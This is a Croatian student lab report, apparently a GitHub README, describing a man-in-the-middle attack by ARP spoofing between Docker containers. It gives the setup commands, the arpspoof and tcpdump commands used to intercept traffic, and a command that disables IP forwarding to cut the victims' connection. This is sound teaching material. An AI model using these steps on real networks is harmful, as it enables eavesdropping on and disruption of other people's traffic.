 # 1. laboratorijska vježba

Reviewed: No

# ****Man-in-the-middle attack (ARP spoofing)****

Na 1. laboratorijskoj vježbi zadatak je bio realizirati Man in the middle napad. Kako bismo ga realizirali, koristili smo ranjivost ARP protokola te 3 virtualizirana Docker računala (eng. container): žrtve **station-1** i **station-2** te napadača **evil-station**. Pokrenuli smo Windows terminal te koristeći WSL (Windows Subsystem for Linux) pokrenuli Ubuntu.

Pozicionirali smo se u odgovarajući direktorij prema uputama profesora i klonirali ovaj GitHub repozitorij:

`git clone [https://github.com/mcagalj/SRP-2022-23](https://github.com/mcagalj/SRP-2022-23)`

Pomoću naredbe cd promijenili smo direktorij u onaj gdje su se nalazile skripte *start.sh* i *stop.sh* koje možemo pozvati za pokretanje/zaustavljanje virtualiziranog mrežnog scenarija:

`$ cd SRP-2022-23/arp-spoofing`

`$ ./start.sh`

`$ ./stop.sh`

`$ docker exec -it station-1 bash`

`$ ifconfig -a`

Trebalo je provjeriti je li station-2 na istoj mreži pa smo to uradili pomoću: 

`$ ping station-2`

To je bilo istinito. Pokrenuli smo shell station-2.

`$ docker exec -it station-2 bash`

Zatim smo ostvarili konekciju između station-1 i station-2 pomoću **netcat**-a.

`$ netcat -l -p 8080`

`$ netcat station-1 8080`

Sljedeći korak bio je napad. Pokrenuli smo shell za evil-station te isprobali **tcpdump** (omogućava praćenje prometa) i **arpspoof.**

`$ docker exec -it evil-station bash`

`$ arpspoof -t station-1 station-2`

`$ tcpdump` 

Mogli smo vidjeti da evil-station zapravo dobiva poruke od station-1 te ih preusmjerava k station-2. On ih dakle pročita. Da bismo zaustavili proslijeđivanje tj. prekinuli promet između station-1 i station-2, koristili smo:

`echo 0 > /proc/sys/net/ipv4/ip_forward`